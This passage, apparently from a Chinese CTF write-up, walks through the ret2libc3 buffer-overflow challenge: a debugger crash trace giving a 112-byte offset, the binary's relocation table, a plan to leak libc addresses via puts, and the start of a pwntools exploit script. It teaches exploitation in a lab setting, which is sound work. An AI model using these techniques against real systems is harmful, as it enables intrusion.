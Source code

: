     ESP 0xffffd1e0 ◂— 0x62616165 ('eaab')

    EIP 0x62616164 ('daab')

    ───────────────────────────────────[ DISASM
    ]───────────────────────────────────

    Invalid address 0x62616164

    >>>  cyclic_find('daab')

    112

再查下libc可以利用的表

	readelf -r ret2libc3

	Relocation section '.rel.dyn' at offset 0x394 contains 3 entries:

	Offset Info Type Sym.Value Sym. Name

	08049ffc 00000506 R_386_GLOB_DAT 00000000 __gmon_start__

	0804a040 00000d05 R_386_COPY 0804a040 stdin@GLIBC_2.0

	0804a060 00000b05 R_386_COPY 0804a060 stdout@GLIBC_2.0

	Relocation section '.rel.plt' at offset 0x3ac contains 10 entries:

	Offset Info Type Sym.Value Sym. Name

	0804a00c 00000107 R_386_JUMP_SLOT 00000000 printf@GLIBC_2.0

	0804a010 00000207 R_386_JUMP_SLOT 00000000 gets@GLIBC_2.0

	0804a014 00000307 R_386_JUMP_SLOT 00000000 time@GLIBC_2.0

	0804a018 00000407 R_386_JUMP_SLOT 00000000 puts@GLIBC_2.0

	0804a01c 00000507 R_386_JUMP_SLOT 00000000 __gmon_start__

	0804a020 00000607 R_386_JUMP_SLOT 00000000 srand@GLIBC_2.0

	0804a024 00000707 R_386_JUMP_SLOT 00000000 __libc_start_main@GLIBC_2.0

	0804a028 00000807 R_386_JUMP_SLOT 00000000 setvbuf@GLIBC_2.0

	0804a02c 00000907 R_386_JUMP_SLOT 00000000 rand@GLIBC_2.0

	0804a030 00000a07 R_386_JUMP_SLOT 00000000 __isoc99_scanf@GLIBC_2.7

我们选取puts来泄露地址，当然也可以main来泄露。

第一段代码

	elf=ELF('ret2libc3')

	context.terminal = ['terminator','-x','sh','-c']

	put_got=elf.got['puts']

	put_plt=elf.plt['puts']

	main_symbols=elf.symbols['main']

